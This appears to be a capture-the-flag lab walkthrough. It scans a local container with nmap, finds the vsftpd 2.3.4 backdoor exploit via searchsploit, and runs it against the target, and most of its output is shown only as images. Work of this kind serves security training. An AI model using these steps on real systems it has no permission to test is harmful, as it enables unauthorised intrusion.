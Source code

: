 ![image](https://github.com/user-attachments/assets/1c9ff203-f5a5-41b3-81d0-b5f581db390a)

## **we start the reconnaissance**
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21 172.17.0.2 -oN targeted
```
![Pasted image 20250121155440](https://github.com/user-attachments/assets/20416bf2-8035-49ff-9344-bb7cc7dc36d4)
![Pasted image 20250121155500](https://github.com/user-attachments/assets/56adb3bb-4de8-4519-9156-9b2a18fad9a5)
![Pasted image 20250121155609](https://github.com/user-attachments/assets/073b4ca0-445f-4557-8226-8c65c2a043f2)

```bash
searchsploit vsftpd 2.3.4
```
![Pasted image 20250121155804](https://github.com/user-attachments/assets/ef4d871a-f6e7-4cac-8e1e-959893513c38)

```bash
searchsploit -m unix/remote/49757.py
```
![Pasted image 20250121160005](https://github.com/user-attachments/assets/53e4cb06-34a5-41da-8f5f-76ac2d263be7)

## **this is the scrip we downloaded **
![Pasted image 20250121160202](https://github.com/user-attachments/assets/5ef7a43d-6898-4795-9e92-122596f8ca2b)

## **now we will use it by assigning it the ip to attack since it is already configured**
```bash
python3 49757.py 172.17.0.2
```
![Pasted image 20250121160341](https://github.com/user-attachments/assets/26fbcf9d-bf2c-4937-b43f-761733e13a10)








